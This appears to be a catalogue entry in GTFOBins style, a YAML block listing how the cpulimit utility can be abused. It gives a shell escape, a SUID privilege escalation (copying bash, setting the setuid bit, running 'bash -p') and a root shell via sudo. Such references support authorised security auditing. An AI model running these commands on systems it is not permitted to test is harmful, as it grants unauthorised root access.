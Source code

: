 ```yaml
---
functions:
  shell:
    - code: cpulimit -l 100 -f /bin/sh
  suid:
    - code: cpulimit -l 100 -f cp /bin/bash .
    - code: cpulimit -l 100 -f chmod +s bash
    - code: /bash -p
  sudo:
    - code: sudo cpulimit -l 100 -f /bin/sh
---
```

